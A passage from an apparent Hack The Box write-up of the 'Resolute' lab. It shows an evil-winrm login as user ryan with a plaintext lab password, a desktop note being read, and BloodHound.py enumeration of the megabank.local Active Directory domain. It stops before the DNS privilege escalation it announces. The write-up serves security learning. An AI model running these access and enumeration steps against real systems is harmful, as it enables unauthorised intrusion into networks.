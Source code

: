 After getting access to the `ryan` user account, I found a note in his desktop folder talking about changes automatically being reverted.

```
root@beholder:~/htb/resolute# evil-winrm -u ryan -p Serv3r4Admin4cc123! -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> dir ../desktop
    Directory: C:\Users\ryan\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        12/3/2019   7:34 AM            155 note.txt

*Evil-WinRM* PS C:\Users\ryan\Documents> type ../desktop/note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

## Privesc using the DNS service

Our `ryan` user is part of the `Contractors` domain group.

```
*Evil-WinRM* PS C:\Users\ryan\Documents> net user ryan
User name                    ryan
Full Name                    Ryan Bertrand
[...]
Local Group Memberships      
Global Group memberships     *Domain Users         *Contractors          
The command completed successfully.
```

I used the python BloodHound ingestor to dump the info in BloodHound and see if I could pick up anything interesting to exploit.

```
root@beholder:~/opt/BloodHound.py# ./bloodhound.py -c all -u ryan -p Serv3r4Admin4cc123! --dns-tcp -d megabank.local -dc megabank.local -gc megabank.local -ns 10.10.10.169
INFO: Found AD domain: megabank.local
INFO: Connecting to LDAP server: megabank.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: megabank.local
INFO: Found 27 users
INFO: Found 50 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MS02.megabank.local
INFO: Querying computer: Resolute.megabank.local
INFO: Done in 00M 03S
```
